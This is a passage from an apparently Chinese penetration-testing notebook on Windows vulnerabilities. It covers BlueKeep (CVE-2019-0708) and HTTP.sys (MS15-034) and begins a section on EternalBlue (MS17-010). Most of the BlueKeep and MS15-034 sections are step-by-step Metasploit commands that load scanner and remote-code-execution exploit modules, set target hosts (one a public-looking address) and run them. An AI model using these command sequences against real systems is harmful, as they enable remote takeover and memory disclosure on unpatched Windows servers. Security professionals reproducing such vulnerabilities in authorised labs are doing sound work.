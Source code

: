   * [FineReport](lou-dong-fu-xian.md#FineReport)
  * [致远](lou-dong-fu-xian.md#致远)

## 操作系统漏洞

### Windows

#### CVE-2019-0708-远程桌面代码执行漏洞

**漏洞影响版本**

* Windows 7
* Windows server 2008 R2
* Windows server 2008
* Windows 2003
* Windows xp

```bash
# 测试是否存在0708漏洞
msfconsole
search 0708
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
show options
set rhosts 32.137.32.10
run

# 漏洞利用，这个不需要，只需完成上面
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show targets //选择目标主机类型  这里我选择了7601 -vmware 15
set target 4
set rhost 192.168.70.22
run
```

#### CVE-2015-1635-HTTP.SYS远程代码执行漏洞

> MS15-034

主要影响了包括Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2在内的主流服务器操作系统。

利用HTTP.sys安全漏洞-读取IIS服务器的内存数据

```
msfconsole
search ms15-034
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
set rhosts 172.30.0.250
run
```

#### MS17-010-永恒之蓝

目前已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。
